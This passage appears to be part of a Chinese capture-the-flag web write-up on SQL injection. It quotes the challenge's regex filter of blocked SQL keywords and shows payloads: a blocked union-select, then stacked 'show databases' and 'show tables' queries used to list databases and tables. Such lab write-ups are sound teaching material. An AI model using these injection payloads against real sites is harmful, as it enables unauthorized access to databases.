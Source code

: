 那么查询语句应该类似: `select id,name from 表名 where id = '$输入';`



```
输入:1' union select version(),database()#
返回了过滤内容
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

那么使用`show`来进行注入:

```
1';show databases;# 爆库名
```

<img src="/images/buuctf-web/image-20221018091315148-166704781973579.png" alt="image-20221018091315148" style="zoom:67%;" />

```
1';show tables;# 爆表名
```

<img src="/images/buuctf-web/image-20221018091417095-166704781973580.png" alt="image-20221018091417095" style="zoom:67%;" />
